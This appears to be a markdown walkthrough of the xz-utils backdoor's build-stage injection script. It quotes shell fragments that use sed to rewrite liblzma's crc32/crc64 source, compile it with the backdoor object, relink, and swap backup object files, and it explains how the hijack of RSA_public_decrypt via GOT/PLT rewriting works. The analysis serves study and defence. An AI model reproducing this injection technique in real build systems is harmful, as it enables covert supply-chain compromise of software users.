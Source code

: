- The sed 1i tells the compiler the file name to record in debug info, since the compiler is reading standard input
- [src/liblzma/check/crc64_fast.c](/Unknown/xz-utils_backdoor/script/crc64_fast.c)

<br>

- [injected-crc64_fast.c](/Unknown/xz-utils_backdoor/script/crc64_fast-injected.c)
- That is, the crc64_resolve function, which is the ifunc resolver that gets run early in dynamic loading, before the GOT and PLT have been marked read-only, is now calling the newly inserted `_is_arch_extension_supported`, which calls `_get_cpuid`.
- `_get_cpuid` is provided by the backdoor .o, and it does a lot more before returning the cpuid information. In particular it rewrites the GOT and PLT to hijack calls to `RSA_public_decrypt`.

```sh
        cp .libs/liblzma_la-crc32_fast.o .libs/liblzma_la-crc32-fast.o || true
        eval $BPep
        if sed "/return is_arch_extension_supported()/ c\return _is_arch_extension_supported()" $top_srcdir/src/liblzma/check/crc32_fast.c | \
            sed "/include \"crc32_arm64.h\"/a \\$V" | \
            sed "1i # 0 \"$top_srcdir/src/liblzma/check/crc32_fast.c\"" 2>/dev/null | \
            $CC $DEFS $DEFAULT_INCLUDES $INCLUDES $liblzma_la_CPPFLAGS $CPPFLAGS $AM_CFLAGS $CFLAGS -r -x c -  $P -o .libs/liblzma_la-crc32_fast.o; then
```
- Do same process when injecting script in `src/liblzma/check/crc64_fast.c`
- But there is no malicious object file named `liblzma_la-crc32.o` like `liblzma_la-crc64-fast.o`

```sh
            eval $RgYB
            if $AM_V_CCLD$liblzma_la_LINK -rpath $libdir $liblzma_la_OBJECTS $liblzma_la_LIBADD; then
```
- If relink to .la file is available

```sh
                if test ! -f .libs/liblzma.so; then
                    mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
                    mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
                fi
```
- If the link succeed but didn't write the file, assume it failed and restore the backups.

```sh
                rm -fr .libs/liblzma.a .libs/liblzma.la .libs/liblzma.lai .libs/liblzma.so* || true
```
- Remove the libraries.
- The `Makefile` link step is presumably going to happen next and recreate them.

```sh
            else
                mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
                mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
            fi
```
- This is the `else` for the link failing. Restore from backups.

```sh
            rm -f .libs/liblzma_la-crc32-fast.o || true
            rm -f .libs/liblzma_la-crc64-fast.o || true
```
- Inner compiler success case. Delete backups.
